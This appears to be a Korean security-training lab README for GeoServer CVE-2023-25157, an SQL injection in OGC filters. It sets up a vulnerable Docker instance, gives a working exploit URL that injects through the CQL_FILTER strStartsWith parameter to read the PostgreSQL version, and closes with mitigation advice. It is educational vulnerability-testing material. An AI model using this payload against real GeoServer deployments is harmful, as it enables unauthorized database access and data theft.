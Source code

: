 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
> </br>
> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
</br>
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.
- SQL Injection 취약점이 발생하는 경우는 구체적으로 `PropertyIsLike` 필터를 문자열 필드가 있는 모든 JDBCDataStore와 함께 사용하는 경우, `strEndsWith` 함수를  "encode functions"이 활성화 된 PostGIS DataStore와 함께 사용하는 경우 등이 있습니다.
- 이번 테스트에서는 `strStartsWith` 함수를 "encode functions"이 활성화된 PostGIS DataStore와 함께 사용할 경우를 테스트 합니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS DataStore가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS DataStore가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

이를 이용한 아래 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다. 
이러한 취약점을 막기 위해 GeoSever의 버전을 업그레이드하는 것이 권장되며, PostGIS DataStore에서 "encode functions"을 비활성화하여 일시적으로 완화할 수 있습니다.

